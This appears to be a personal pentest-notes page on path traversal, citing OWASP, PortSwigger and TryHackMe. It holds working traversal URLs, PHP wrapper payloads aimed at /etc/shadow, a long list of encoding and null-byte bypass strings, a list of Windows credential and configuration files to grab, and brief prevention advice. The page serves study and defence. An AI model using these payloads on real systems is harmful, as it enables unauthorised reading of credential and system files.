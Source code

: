 # Path Traversal

Path Traversal *also known as Directory Traversal ([Portswigger](https://portswigger.net/web-security/file-path-traversal) and [OWASP](https://owasp.org/www-community/attacks/Path_Traversal))* is a direct read (and or execute) of file on the server via abusing relative path traversal of the file system from some web endpoint to then read a file from a directory not intended to be accessible. It is commonly confused with [[File-Inclusion]], which relies on the `include()` function to include file.  [OWASP](https://owasp.org/www-community/attacks/Path_Traversal): *This attack is also known as "dot-dot-slash", "directory traversal", "directory climbing" and "backtracking".* It is also a misnomer as it is dichotomy:

Path Traversal:
- Absolute Path Traversal: `vulnerable?parameter=/var/www/html/secrets.txt`
- Relative Path Traversal: `vulnerable?parameter=/var/www/html/../../etc/passwd`

- Difference between Absolute and Relative Paths:
	- Absolute Paths - `/etc/passwd` or `C:\Windows\System32\drivers\etc\hosts`
	- Relative Paths - `../etc/passwd`; relative to the position in a file system from a source position in the file system 

For a Relative Path Traversal Provide a path that is exactly as is in the URL
```bash
curl http://badwebsite/load?file=../../../../../dt/vuln --path-as-is
```

It is worth noting that while the Relative Path Traversal is more prevalent in literature Absolute Path Traversal to just a file in the same directory exists. [OWASP](https://owasp.org/www-community/attacks/Path_Traversal) example included:
```bash
# The For sites:
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
# An attacker can execute this attack like this:
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```

- Application code and data.
- Credentials for back-end systems.
	- SSH, VPN keys
	- User files containing passwords
- Sensitive operating system files.
	- Configuration files containing passwords


PHP-Wrappers including mostly commonly used [[PHP-Wrappers]] or Data Wrappers can be utilised like:
```php
// PHP filter
pathtraversal.com/find?file=php://filter/convert.base64-encode/resource=../../../../../etc/shadow
// Data Wrapper: `data` as URL, `text/plain` as mime-type and php code
data:text/plain,<?php%20phpinfo();%20?>
```

#### Traversal encoding:

Remember this is a guide to ideas of how to encode Directory Traversal, encoding payloads on the fly not from here.
```bash
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./

# To bypass (recursive) stripping of `.` `/` encoding
# Singular (partial) encoding 
%2e%2e/ # ../
%2e%2e%2f # ../
..%2f # ../
%2e%2e%5c # ..\
%2e%2e\ # ..\ 
..%5c #  ..\ 
%252e%252e%255c # ..\ 
..%255c # ..\
# Double encoding 
%252e%252e%252f
# UTF-8 encoding
%c0%ae%c0%ae%c0%af	
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
# Percent Encoding
# OWASP: Note that web containers perform one level of decoding on percent encoded values from forms and URLs
..%c0%af # ../
..%c0%9c # ..\
# Nested traversal sequences
..././
....//
....\/
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

# Non Standard encodins - Portswigger
..%c0%af
..%ef%bc%8f

# Required directory
/var/www/images/../../../etc/passwd

# Application expecting a file extension
# Use a null byte to effectively terminate the file path, before the required extension
../../../etc/passwd%00.png
```

A modified list of sensitive files on Windows from [hakluke's medium article](https://hakluke.medium.com/sensitive-files-to-grab-in-windows-4b8f0a655f40) and [ SleepyLctl gist](https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9)
```powershell
# %windir% or C:\

%windir%\repair\sam  
%windir%\System32\config\RegBack\SAM  
%windir%\repair\system  
%windir%\repair\software  
%windir%\repair\security  
%windir%\debug\NetSetup.log # AD domain name, DC name, internal IP, DA account  
%windir%\iis5.log
%windir%\iis6.log
%windir%\iis7.log
%windir%\system32\logfiles\httperr\httperr1.log  
C:\sysprep.inf  
C:\sysprep\sysprep.inf  
C:\sysprep\sysprep.xml  
%windir%\Panther\Unattended.xml  
C:\inetpub\wwwroot\Web.config  
%windir%\system32\config\AppEvent.Evt # Application log   
%windir%\system32\config\SecEvent.Evt # Security log  
%windir%\system32\config\default.sav  
%windir%\system32\config\security.sav  
%windir%\system32\config\software.sav  
%windir%\system32\config\system.sav  
%windir%\system32\inetsrv\config\applicationHost.config  
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml  
%windir%\System32\drivers\etc\hosts # dns entries  
%windir%\System32\drivers\etc\networks # network settings  
%windir%\system32\config\SAM  # only really useful if you have access to the files while the machine is off
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/access.log
C:/Program Files (x86)/Apache Group/Apache/conf/error.log
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/WINDOWS/php.ini
C:/WINDOWS/Repair/SAM
C:/Windows/repair/system
C:/Windows/repair/software
C:/Windows/repair/security
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/debug/NetSetup.log
C:/Windows/system32/config/AppEvent.Evt
C:/Windows/system32/config/SecEvent.Evt
C:/Windows/system32/config/default.sav
C:/Windows/system32/config/security.sav
C:/Windows/system32/config/software.sav
C:/Windows/system32/config/system.sav
C:/Windows/system32/config/regback/default
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

## Prevention

- Validate the user input before processing it - ideally compare to a whitelist and or permit alphanumeric characters only
- After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
## References

[Portswigger](https://portswigger.net/web-security/file-path-traversal)
[OWASP](https://owasp.org/www-community/attacks/Path_Traversal)
[THM Room File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)